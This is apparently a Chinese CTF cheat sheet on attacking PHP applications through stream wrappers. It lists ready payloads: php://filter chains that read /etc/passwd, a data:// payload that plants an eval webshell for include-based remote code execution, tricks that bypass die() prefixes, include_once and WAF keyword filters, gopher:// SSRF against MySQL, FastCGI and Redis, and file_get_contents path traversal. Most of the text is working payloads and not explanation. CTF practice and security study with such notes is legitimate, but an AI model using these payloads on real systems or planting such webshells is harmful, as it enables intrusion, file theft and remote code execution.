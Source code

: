 - [PHP官方文档](https://www.php.net/manual/en/wrappers.php)
- # `php://`
	- 各种编码的加解密
		- ```
		  base64编码，读取文件：
		  php://filter/read=convert.base64-encode/resource=
		  base64解码，读取文件：
		  php://filter/read=convert.base64-decode/resource=
		  base64解码，写入文件：
		  php://filter/write=convert.base64-decode/resource=
		  rot13编码
		  php://filter/write=string.rot13/resource=
		  zlib压缩
		  php://filter/zlib.inflate/resource=
		  ```
	- include无写入文件RCE
	  id:: 63bc02d6-ea56-4c2a-a494-0cb277531dba
		- 通过错误的编码转换，我们可以在文件内容的开头加入某些字符，这样我们就可以在文件的开头写入任意内容，并实现RCE
		- [参考](https://tttang.com/archive/1395/)
		- [Payload生成](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)
		- 如果是`include_once`或者`require_once`那可能要配合 ((636665b7-cd42-4bd2-a685-f5e5cc4f5ec7))
	- 让php崩溃，从而让临时文件留在/tmp中
	  id:: 636665b7-767d-440c-8482-bb5e1dc0933c
		- `php://filter/string.strip_tags/resource=/etc/passwd`
	- 让`include_once`和`require_once`失效：
	  id:: 636665b7-cd42-4bd2-a685-f5e5cc4f5ec7
		- `php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/etc/passwd`
	- isset函数支持php伪协议
	- 绕开死亡`die`
		- 某些题目会在文件的开头加入类似`<?php die();`的内容，让我们无法正常写入webshell, 我们可以使用base64解码或者其他方式破坏掉前面的`die`
		- `php://filter/write=string.strip_tags|convert.base64-decode/resource=`
	- php在解析伪协议时会先urldecode伪协议，所以可以使用二次编码绕过WAF
	  id:: 64673efa-c544-4ad7-9b9b-920b148d0b26
	- 所有filter
		- ```php
		  zlib.*
		  convert.iconv.*
		  string.rot13
		  string.toupper
		  string.tolower
		  string.strip_tags
		  convert.base64-encode
		  convert.base64-decode
		  convert.quoted-printable-encode
		  convert.quoted-printable-decode
		  consumed
		  dechunk
		  ```
- # `data://`
	- 单纯表示某个内容，比如：`data://text/plain,123`读取出来的内容就是`123`
	- include无写入文件RCE
		- `data://text/plain,<?php eval($_POST['data']);?>`
	- base64
		- `data://text/plain;base64,`
	- php中也可以是`data:xxx`
		- [[CTF/WP/Phuck2]]
- # `gopher://`
  id:: 62f27746-a352-41d4-b76d-63fc1f7c9e4f
	- `gopher://127.0.0.1:9000/_xxx`
		- 其中xxx是（URL编码后的）TCP发送的数据
	- 打SSRF
		- 打无密码MySQL
			- 只需要无密码用户的用户名即可执行任意SQL指令
		- 打FastCGI
			- 只需要一个存在主机上文件的路径就可以执行任意Shell指令
		- 可以打：`mysql, postgresql, fastcgi, redis, smtp, zabbix, pymemcache, rbmemcache, phpmemcache, dmpmemcache`
	- Payload可以用 ((62f14125-43fc-4da5-b83f-4d56aa1d2157)) 生成
- # `phar://`
	- 读取某个phar压缩包中的文件
	- `phar://a.phar/a.txt`
	- [[CTF/PHP/Phar]]
- # `file://`
	- 表示文件，如`file:///etc/passwd`
- # `dict://`
	- 发送TCP数据，感觉不如`gopher://`
- # `glob://`
	- 读取目录，后面接上Linux的glob表达式
	- {{embed [[CTF/PHP/目录读取]]}}
- 另：
	- java 的`file://`可以读取目录
	- 能用`file://`的地方有时可以不用`file://`, 直接读取
		- 比如`file:///etc/passwd`和`/etc/passwd`
- 其他
	- 有关file_get_contents()函数的一个trick，可以看作是SSRF的一个黑魔法，当PHP的 file_get_contents() 函数在遇到不认识的伪协议头时候会将伪协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件。
		- ```
		  httpsssss://../../../../../../etc/passwd
		  httpsssss://abc../../../../../../etc/passwd
		  ```
	- 在很多时候伪协议都是支持URL编码的，可以用来绕过关键字检测